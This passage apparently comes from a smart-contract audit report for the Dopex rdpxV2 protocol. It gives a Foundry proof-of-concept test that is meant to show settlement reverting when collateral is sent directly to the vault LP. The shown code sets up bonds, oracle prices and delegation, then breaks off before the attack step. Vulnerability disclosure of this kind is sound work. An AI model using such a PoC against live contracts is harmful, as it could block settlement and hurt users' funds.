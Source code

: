 ## Proof of Concept
Paste the following code in https://github.com/code-423n4/2023-08-dopex/blob/main/tests/rdpxV2-core/Integration.t.sol

Run `forge test --mt test_poc_settle_reverts_when_collateral_sent_directly_to_vault_lp -vvv`

```solidity
function test_poc_settle_reverts_when_collateral_sent_directly_to_vault_lp() public {
       // user 1 bonds 10 dpxETH
   uint256 receiptTokens1 = rdpxV2Core.bond(10 * 1e18, 0, address(1));
   // user 2 bonds 10 dpxETH
   rdpxV2Core.bond(10 * 1e18, 0, address(2));

   // update rdpx to (.312 eth)
   address[] memory path;
   path = new address[](2);
   path[0] = address(weth);
   path[1] = address(rdpx);
   router.swapExactTokensForTokens(
     500e18,
     0,
     path,
     address(this),
     block.timestamp
   );
   rdpxPriceOracle.updateRdpxPrice(312 * 1e5);

   // reduce bond discount
   rdpxV2Core.setBondDiscount(5e4);

   // user 3 bonds 5 dpxETH at new price and bond discount
   weth.transfer(address(3), 5e18);
   rdpx.transfer(address(3), 50e18);
   vm.prank(address(3), address(3));
   weth.approve(address(rdpxV2Core), type(uint256).max);
   vm.prank(address(3), address(3));
   rdpx.approve(address(rdpxV2Core), type(uint256).max);
   vm.prank(address(3), address(3));
   rdpxV2Core.bond(5 * 1e18, 0, address(3));

   // skip 5 days
   skip(86400 * 5);

   // delegate 2 weth at 10% fee
   uint256 delegateId1 = rdpxV2Core.addToDelegate(2e18, 10e8);

   // user 1 delegate 5 weth at 20% fee
   weth.transfer(address(1), 5e18);
   vm.prank(address(1), address(1));
   weth.approve(address(rdpxV2Core), type(uint256).max);
   vm.prank(address(1), address(1));
   uint256 delegateId2 = rdpxV2Core.addToDelegate(5e18, 20e8);

   // bond with delegate
   uint256[] memory _amounts = new uint256[](2);
   uint256[] memory _delegateIds = new uint256[](2);
   _delegateIds[0] = delegateId1;
   _delegateIds[1] = delegateId2;
   _amounts[0] = 1 * 1e18;
   _amounts[1] = 1 * 3e18;

   rdpxV2Core.bondWithDelegate(address(this), _amounts, _delegateIds, 0);

   // skip 2 days and update funding payment pointer
```
